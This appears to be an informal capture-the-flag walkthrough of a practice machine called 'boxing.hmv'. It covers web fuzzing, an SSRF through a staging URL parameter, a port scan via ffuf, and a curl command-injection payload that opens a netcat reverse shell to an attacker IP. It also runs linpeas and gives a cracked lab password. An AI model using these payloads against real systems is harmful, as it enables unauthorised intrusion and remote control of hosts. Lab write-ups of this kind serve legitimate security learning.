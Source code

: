 Host NAME: boxing.hmv

on fuzzing we find a feedback.php

Directory indexing was also found on images, css, and js endpoints.

In the feedback.php form, if we intercept the request, we can see an x-origin-domain header, which has the url staging-env.boxing.hmv


Adding this to the hosts file reveals a new webpage.

Here, we seem to be able to play around by navigating to server urls. Is it possible to play around with these urls to obtain something?

So there is SSRF here like this:
boxing.hmv@[ATTACKER IP]:8000

Running a python http server will allow it to query it. Maybe we can make it query a php file and get code execution.

Now that we have SSRF, it is time to see whether we can fuzz for local ports that are open. This will be done by making ffuf fuzz over this parameter
boxing.hmv@localhost:FUZZ

Fuzzing command:
ffuf -u 'http://staging-env.boxing.hmv/index.php?url=boxing.hmv@localhost:FUZZ' -w <(seq 1 65000) -fs 1167

So we get that port 5000 and port 80 are open. So let's try and find out what's in it.

By entering this particular payload in the url:
boxing.hmv@localhost:5000/index.php?processName=apache2


So we can get command injection like this:
curl 'http://staging-env.boxing.hmv/index.php?url=boxing.hmv@localhost:5000?processName=system%2B-e%2Bnc%2B-c%2Bbash%2B192.168.29.170%2B4444'

Now /var/www/dev/boxing_database.db is an interesting file found by linpeas.sh

We download this onto our machine and analyse it.

On cracking credentials from the database, we get the password as Cassius!123 for the user cassius

I have no idea wtf they did for privesc. I just copied the commands from this writeup:
https://medium.com/@josemlwdf/boxing-fb1dca50fea7
